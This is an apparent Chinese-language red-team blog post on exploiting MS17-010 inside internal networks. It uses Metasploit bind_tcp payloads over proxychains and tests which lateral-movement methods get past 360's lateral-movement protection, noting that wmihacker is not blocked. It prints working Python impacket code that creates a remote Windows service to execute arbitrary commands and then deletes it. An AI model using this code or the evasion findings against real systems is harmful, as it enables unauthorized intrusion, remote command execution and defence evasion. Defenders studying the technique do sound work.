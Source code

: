```yaml
---
layout: post
title: MS17-010 

---
```


## 0x01  

内网打Ms17-010比较常见，一般走代理proxychains打正向payload

windows/x64/meterpreter/bind_tcp

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211112173233.png)

经过测试，在不开启360横向渗透防护情况下msf还是会被拦截

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115092540.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211112173749.png)

防护开的比较全的情况下，就开始乱杀了，send smb可以把工具传上去，但是执行命令还是被横向渗透防护拦截，

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104253.png)

测试时候发现，如果源IP不是当前Ip的话，就会被拦截远程攻击，判断攻击方式后查看源代码发现攻击利用的是老impacket包里面的psexec模块，攻击利用方式还是以起服务的方式

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104536.png)

测试wmihacker查看横向是否拦截，发现360横向渗透防护并不拦截

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104356.png)

跟踪代码查看是如何创建服务的，调用了CreateService的api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115141245.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115140742.png)

```python
def service_exec(conn, cmd):
   import random
   import string
   from impacket.dcerpc.v5 import transport, srvs, scmr
   
   service_name = ''.join([random.choice(string.letters) for i in range(4)])

   # use DCE connect SMBTransport
   rpcsvc = conn.get_dce_rpc('svcctl')
   rpcsvc.connect()
   rpcsvc.bind(scmr.MSRPC_UUID_SCMR)
   svcHandle = None
   try:
      print("Opening SVCManager on %s....." % conn.get_remote_host())
      resp = scmr.hROpenSCManagerW(rpcsvc)
      svcHandle = resp['lpScHandle']
      
      # open service
      try:
         resp = scmr.hROpenServiceW(rpcsvc, svcHandle, service_name+'\x00')
      except Exception as e:
         if str(e).find('ERROR_SERVICE_DOES_NOT_EXIST') == -1:
            raise e  # Unexpected error
      else:
         # It exists, remove it
         scmr.hRDeleteService(rpcsvc, resp['lpServiceHandle'])
         scmr.hRCloseServiceHandle(rpcsvc, resp['lpServiceHandle'])
      
      print('Creating service %s.....' % service_name)
      resp = scmr.hRCreateServiceW(rpcsvc, svcHandle, service_name + '\x00', service_name + '\x00', lpBinaryPathName=cmd + '\x00')
      serviceHandle = resp['lpServiceHandle']
      
      if serviceHandle:
         # start service
         try:
            print('Starting service %s.....' % service_name)
            scmr.hRStartServiceW(rpcsvc, serviceHandle)
            # is it really need to stop?
            # using command line always makes starting service fail because SetServiceStatus() does not get called
            #print('Stoping service %s.....' % service_name)
            #scmr.hRControlService(rpcsvc, serviceHandle, scmr.SERVICE_CONTROL_STOP)
         except Exception as e:
            print(str(e))
         
         print('Removing service %s.....' % service_name)
         scmr.hRDeleteService(rpcsvc, serviceHandle)
         scmr.hRCloseServiceHandle(rpcsvc, serviceHandle)
   except Exception as e:
      print("ServiceExec Error on: %s" % conn.get_remote_host())
      print(str(e))
   finally:
      if svcHandle:
         scmr.hRCloseServiceHandle(rpcsvc, svcHandle)

   rpcsvc.disconnect()
```
